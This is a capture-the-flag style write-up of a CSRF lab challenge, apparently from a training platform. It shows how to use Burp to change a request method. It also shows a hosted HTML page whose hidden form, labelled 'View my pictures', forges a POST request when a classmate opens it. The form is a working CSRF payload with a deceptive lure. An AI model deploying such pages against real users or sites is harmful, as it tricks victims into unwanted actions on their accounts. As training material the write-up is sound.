

# Challenge
To complete this challenge, you must get your CSRF counter above 0. Once The request to increment your counter is as follows;

```

POST /user/csrfchallengetwo/plusplus
```
With the following parameter; `userId = 47887913a0f9573d479fbd600fa02ac6ef0575bd`

Where exampleId is the ID of the user who's CSRF counter is being incremented. 

You can use the CSRF forum below to post a message with a HTML Page.

---
# Resolve
Same as challenge 1 but using the `POST` request.

So the link in image will be:
```http
https://10.63.253.66/user/csrfchallengetwo/plusplus
?userId=47887913a0f9573d479fbd600fa02ac6ef0575bd
```
Send this link to another user to visit. but if we using the browser, the method is `GET`. So we need to capture the request and using Burp to intercept it and change the method to `POST`.


Return to our session. The challenge is complete.

This is the fast way to bypass this challenge. But in real life we need to put the payload on HTML page so the other user can interactive.
Lets try to make simple HTML webpage.
[https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
[https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

So i decide to build a web server that serve the html page. 
```sh
python3 -m http.server 80
```

And create the html file `csrf2.html` will be like this:
```html
<!doctype html>
<html>
<head>
	<title>Our Funky HTML Page</title>
	<meta name="description" content="Our first page">
	<meta name="keywords" content="html tutorial template">
</head>
<body>

	<form action="https://10.63.253.66/user/csrfchallengetwo/plusplus" method="POST">
		<input type="hidden" name="userid" value="47887913a0f9573d479fbd600fa02ac6ef0575bd"/>
		<input type="submit" value="View my pictures"/>
	</form>
</body>
</html>
```
Final, we will put the url of the HTML file to the link and share with classmate (or give direct to them to access).
```url
http://172.16.177.131/csrf2.html
```
After they access to your link then the challenge is solved.

